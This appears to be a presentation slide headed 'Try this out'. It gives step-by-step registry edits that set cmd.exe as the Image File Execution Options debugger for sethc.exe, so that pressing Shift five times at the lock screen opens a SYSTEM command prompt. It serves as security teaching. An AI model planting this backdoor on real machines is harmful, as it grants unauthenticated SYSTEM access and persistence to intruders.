

# Try this out
Open regedit
Navigate to HKLM\Software\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\
Create a new key and name it sethc.exe
Create a new String value in the right pane and name it Debugger
Change its data to cmd.exe
Lock your screen and press Shift 5 times
In the cmd that opens, execute whoami /priv